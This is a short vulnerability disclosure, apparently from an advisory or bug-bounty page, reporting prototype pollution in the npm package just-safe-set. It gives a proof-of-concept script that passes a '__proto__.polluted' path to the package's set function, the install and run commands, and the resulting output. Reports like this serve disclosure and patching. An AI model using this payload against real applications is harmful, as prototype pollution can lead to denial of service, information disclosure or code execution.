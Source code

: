 # Description

`just-safe-set` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
const set = require('just-safe-set');
const obj = {};
console.log("Before : " + obj.polluted);
set(obj, '__proto__.polluted', "Yes! Its Polluted");
var obj1={}
console.log("After : " + obj1.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i just-safe-set # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
